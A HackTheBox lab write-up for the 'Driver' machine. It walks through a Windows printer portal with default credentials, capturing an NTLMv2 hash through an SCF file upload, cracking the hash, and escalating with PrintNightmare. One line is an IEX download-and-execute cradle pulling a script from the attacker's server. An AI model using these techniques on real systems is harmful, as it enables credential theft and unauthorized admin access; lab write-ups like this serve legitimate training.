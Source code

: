 ```yaml
---
title: "Driver"
date: 2022-09-20T14:03:31+01:00
draft: false
categories:
  - HackTheBox
---
```


## Enumeration

### nmap

```
PORT    STATE SERVICE      REASON  VERSION
80/tcp  open  http         syn-ack Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
135/tcp open  msrpc        syn-ack Microsoft Windows RPC
445/tcp open  microsoft-ds syn-ack Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-11-16T06:45:20
|_  start_date: 2021-11-16T06:30:11
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 7h17m59s, deviation: 0s, median: 7h17m59s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 39061/tcp): CLEAN (Timeout)
|   Check 2 (port 18115/tcp): CLEAN (Timeout)
|   Check 3 (port 26928/udp): CLEAN (Timeout)
|   Check 4 (port 37846/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

```

Basically a windows machine with a web server, visiting the website requires admin creds

RPC open on port 135...lets do Rpc enumeration

```
$rpcdump.py 10.10.11.106
Impacket v0.9.25.dev1 - Copyright 2021 SecureAuth Corporation

[*] Retrieving endpoint list from 10.10.11.106
Protocol: [MS-RSP]: Remote Shutdown Protocol
Provider: wininit.exe
UUID    : D95AFE70-A6D5-4259-822E-2C84DA1DDB0D v1.0
Bindings:
ncacn_ip_tcp:10.10.11.106[49408]
ncalrpc:[WindowsShutdown]
ncacn_np:\\DRIVER[\PIPE\InitShutdown]
ncalrpc:[WMsgKRpc07AEA0]
...
```

There was 445 endpoints so for readability I put it in a separate file called `rpcdump.txt`

Back to the website it says: “MFP Firmware Update Center. Please enter password for admin”

Defaults creds work lol

`admin : admin`

After login we see a printer

In Firmware updates page we can uplaod files (upload Firmware)

As samba open those are probably saved in the shares

After some research (google) I discovered [SCF file attacks](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/)

we create an exploit named `@exploit.scf`

we start a responder to capture hashes  
`sudo responder -wrf --lm -v -I tun0`

I had issues with tun0 interface because of my network configuration, as I am on virtualbox (Nat network + vpn from guest)

But eventually after clicking on submit button we get the following:

```
[SMB] NTLMv2 Client : 10.10.11.106
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash : tony::DRIVER:6f09da70e73b9237:674092FE6EC25CB23CBB01D554A9B854:0101000000000000DEB3B39E53B8D70144991278610991070000000002000400270027000000000000000000
```

Crack the hash with john+rockyou

```
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony (tony)
1g 0:00:00:00 DONE (2021-10-03 00:42) 10.00g/s 327680p/s 327680c/s 327680C/s softball27..eatme1
```

So creds are `tony : liltony`

we connect with evil-winrm  
`evil-winrm -i 10.10.11.106 -u tony -p liltony`

USER FLAG  
`_Evil-WinRM_ PS C:\Users\tony\Desktop> type user.txt`

## Privileges Escalation

rpcdump show us the printer is enabled so `spool service` runs...we use [printNighmare](https://github.com/outflanknl/PrintNightmare) exploit

we upload the file with evil-winrm
`upload CVE-2021-1675.ps1`

But we cannot import it

````
File C:\Users\tony\Desktop\cve-2021-1675.ps1 cannot be loaded because running scripts is disabled on this system. For more information, see about_Execution_Policies at http://go.microsoft.com/fwlink/?LinkID=135170.
At line:1 char:1

- Import-Module .\cve-2021-1675.ps1
- ```

  ```

- CategoryInfo : SecurityError: (:) [Import-Module], PSSecurityException
- FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
````

we can bypass that with the help of download the file with help of `IEX` command

we start a python server where the exploit is and download with IEX on evil-winrm

```
IEX(New-Object Net.Webclient).downloadstring('http://10.10.15.45:4444/CVE-2021-1675.ps1') //used port 4444 for server because 80 was busy (had another server)
```

Then we invoke it and choose our creds

```
Invoke-Nightmare -NewUser "nairolf" -NewPassword "nairolf"

[+] added user nairolf as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```

Now we are admin...lets connect as such  
`evil-winrm -i 10.10.11.106 -u nairolf -p nairolf`

ROOT FLAG  
`_Evil-WinRM_ PS C:\Users\Administrator\Desktop> type root.txt`

This room was anything but easy...htb got a problem rating their boxes
